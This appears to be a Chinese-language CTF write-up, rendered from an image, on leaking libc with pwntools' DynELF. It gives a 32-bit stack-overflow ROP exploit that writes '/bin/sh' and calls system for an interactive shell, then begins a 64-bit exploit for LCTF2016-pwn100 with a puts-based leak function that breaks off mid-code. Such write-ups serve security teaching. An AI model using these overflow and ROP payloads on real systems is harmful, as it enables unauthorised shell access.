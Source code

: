 ```
systemAddress = dynelf.lookup("__libc_system", "libc") 
print "systemAddress:", hex(systemAddress)
#调用_start函数，恢复栈
payload1 = "A" * 112
payload1 += p32(startaddress) 
p.send(payload1)
print p.recv()
ppprAddress = 0x0804856c  #获取到的连续3次pop操作的gadget的地址 
payload1 = "A" * 112
payload1 += p32(readplt)
payload1 += p32(ppprAddress)
payload1 += p32(0)
payload1 += p32(bssaddress)
payload1 += p32(8)
payload1 += p32(systemAddress) + p32(vulnaddress) + p32(bssaddress)
p.send(payload1)
p.send('/bin/sh\0')
p.interactive()
```

LCTF2016-pwn100

本题是64位linux下的二进制程序，无cookie，也存在很明显的栈溢出漏洞，且可以循环泄露，符合我们使用DynELF的条件，但和上一题相比，存在两处差异：

1）64位linux下的函数需要通过rop链将参数传入寄存器，而不是依靠栈布局；

2）puts函数与write函数不同，不能指定输出字符串的长度。

根据上文给出的解决方法，构造利用脚本如下。

```
from pwn import *
import binascii
p = process("./pwn100")
elf = ELF("./pwn100")
readplt = elf.symbols['read']
readgot = elf.got['read']
putsplt = elf.symbols['puts']
putsgot = elf.got['puts']
mainaddress =   0x4006b8
startaddress =   0x400550
poprdi =     0x400763
pop6address  =  0x40075a   
movcalladdress = 0x400740
waddress =     0x601000 #可写的地址，bss段地址在我这里好像不行，所以选了一个别的地址，应该只要不是readonly的地址都可以 
def leak(address):
  count = 0
  data = ''
  payload = "A" * 64 + "A" * 8
  payload += p64(poprdi) + p64(address)
  payload += p64(putsplt)
  payload += p64(startaddress)
  payload = payload.ljust(200, "B")
  p.send(payload)
  print p.recvuntil('bye~\n')
  up = ""
  while True:
    c = p.recv(numb=1, timeout=0.5)
    count += 1
    if up == '\n' and c == "":
      data = data[:-1]
      data += "\x00"
      break
    else:
      data += c
    up = c
```